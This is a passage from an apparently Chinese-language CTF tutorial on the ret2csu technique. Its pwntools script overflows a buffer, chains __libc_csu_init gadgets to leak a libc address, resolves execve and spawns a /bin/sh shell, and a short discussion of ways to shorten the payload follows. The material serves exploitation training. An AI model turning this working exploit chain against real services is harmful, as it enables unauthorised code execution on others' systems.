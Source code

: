 ```python
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 思考

#### 改进

在上面的时候，我们直接利用了这个通用 gadgets，其输入的字节长度为 128。但是，并不是所有的程序漏洞都可以让我们输入这么长的字节。那么当允许我们输入的字节数较少的时候，我们该怎么有什么办法呢？下面给出了几个方法

##### 改进1 - 提前控制 rbx 与 rbp

可以看到在我们之前的利用中，我们利用这两个寄存器的值的主要是为了满足 cmp 的条件，并进行跳转。如果我们可以提前控制这两个数值，那么我们就可以减少 16 字节，即我们所需的字节数只需要112。

##### 改进2-多次利用

其实，改进 1 也算是一种多次利用。我们可以看到我们的 gadgets 是分为两部分的，那么我们其实可以进行两次调用来达到的目的，以便于减少一次 gadgets 所需要的字节数。但这里的多次利用需要更加严格的条件
